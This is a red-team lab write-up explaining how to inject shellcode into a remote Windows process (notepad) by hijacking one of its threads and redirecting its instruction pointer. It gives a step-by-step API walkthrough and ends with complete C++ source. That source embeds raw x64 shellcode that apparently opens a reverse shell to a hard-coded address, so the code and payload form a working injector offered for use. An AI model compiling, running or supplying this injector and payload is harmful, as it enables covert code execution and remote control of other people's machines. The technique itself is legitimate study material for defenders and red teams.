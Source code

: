 ```yaml
---
layout: post
title: "injecting to remote process via thread hijacking"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-injection-process-injection/
---
```


# Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process (notepad in our case) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` (allocated in step 2), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process (notepad). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack (`threadHijacked`) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's (retrieved in step 6) instruction pointer (`RIP` register) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's (upadated in step 7) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's (notepad) main thread ID as seen in the below image:

![](<../../.gitbook/assets/image (609).png>)

In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```

![](<../../.gitbook/assets/image (610).png>)

In step 6, that thread (TID `14100`) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```

![](<../../.gitbook/assets/image (611).png>)

In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:

![](<../../.gitbook/assets/image (612).png>)

After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:

![](<../../.gitbook/assets/image (613).png>)

![](<../../.gitbook/assets/image (614).png>)

In step 10, once the hijacked thread (`threadHijacked`) is resumed, the shellcode is executed and a reverse shell is executed:

![](<../../.gitbook/assets/image (617).png>)

Below shows the technique in action:

![](../../.gitbook/assets/thread-hijacking.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
		"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
		"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
		"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
		"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
		"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
		"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
		"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
		"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
		"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
		"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
		"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
		"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
		"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
		"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
		"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;
	
	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);
	
	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}
	
	SuspendThread(threadHijacked);
	
	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);
	
	ResumeThread(threadHijacked);
}
```
@spotheplanet
